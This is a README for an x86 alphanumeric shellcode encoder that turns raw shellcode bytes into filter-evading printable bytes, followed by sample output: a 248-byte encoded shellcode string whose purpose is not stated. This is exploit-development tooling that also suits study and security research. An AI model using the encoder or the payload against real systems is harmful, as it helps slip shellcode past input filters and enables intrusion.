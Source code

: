 # x86 Alphanumeric Shellcode Encoder
Encodes shellcode in a given file (in raw bytes form) to alphanumeric shellcode using SUB operations on EAX and pushing values to the stack
## Usage
    ./alphanum_shellcode.py shellcode
    [*] Now encoding 0x75e7ffe7...
    [*] Now encoding 0xaf75eaaf...
    [*] Now encoding 0x30578bfa...
    [*] Now encoding 0xefb85430...
    [*] Now encoding 0x3c055a74...
    [*] Now encoding 0x258cd2e...
    [*] Now encoding 0xf42526a...
    [*] Now encoding 0x6681caff...
    "\x25\x4a\x4d\x4e\x55\x25\x35\x32\x31\x2a\x2d\x33\x3d\x59\x6e\x2d\x40\x42\x4a\x79\x2d\x68\x31\x30\x33\x2d\x3e\x4f\x44\x6f\x50\x25\x4a\x4d\x4e\x55\x25\x35\x32\x31\x2a\x2d\x66\x3b\x79\x5f\x2d\x40\x4b\x39\x31\x2d\x5b\x33\x5f\x4f\x2d\x50\x5b\x78\x70\x50\x25\x4a\x4d\x4e\x55\x25\x35\x32\x31\x2a\x2d\x34\x3f\x7a\x7a\x2d\x40\x4f\x5f\x7a\x2d\x52\x7a\x6f\x6f\x2d\x40\x6b\x5f\x6b\x50\x25\x4a\x4d\x4e\x55\x25\x35\x32\x31\x2a\x2d\x30\x78\x35\x41\x2d\x40\x59\x56\x3c\x2d\x30\x7a\x71\x30\x2d\x30\x60\x4a\x62\x50\x25\x4a\x4d\x4e\x55\x25\x35\x32\x31\x2a\x2d\x53\x78\x3e\x79\x2d\x6e\x76\x43\x65\x2d\x60\x69\x31\x75\x2d\x6b\x4d\x47\x70\x50\x25\x4a\x4d\x4e\x55\x25\x35\x32\x31\x2a\x2d\x30\x35\x7a\x38\x2d\x42\x5b\x62\x57\x2d\x30\x70\x5d\x35\x2d\x30\x32\x6d\x38\x50\x25\x4a\x4d\x4e\x55\x25\x35\x32\x31\x2a\x2d\x55\x60\x77\x30\x2d\x70\x79\x5f\x30\x2d\x72\x78\x77\x40\x2d\x5f\x5b\x6f\x4f\x50\x25\x4a\x4d\x4e\x55\x25\x35\x32\x31\x2a\x2d\x3d\x33\x76\x59\x2d\x40\x5a\x57\x5b\x2d\x3c\x4f\x57\x6d\x2d\x48\x58\x59\x77\x50"
    Length of shellcode: 248
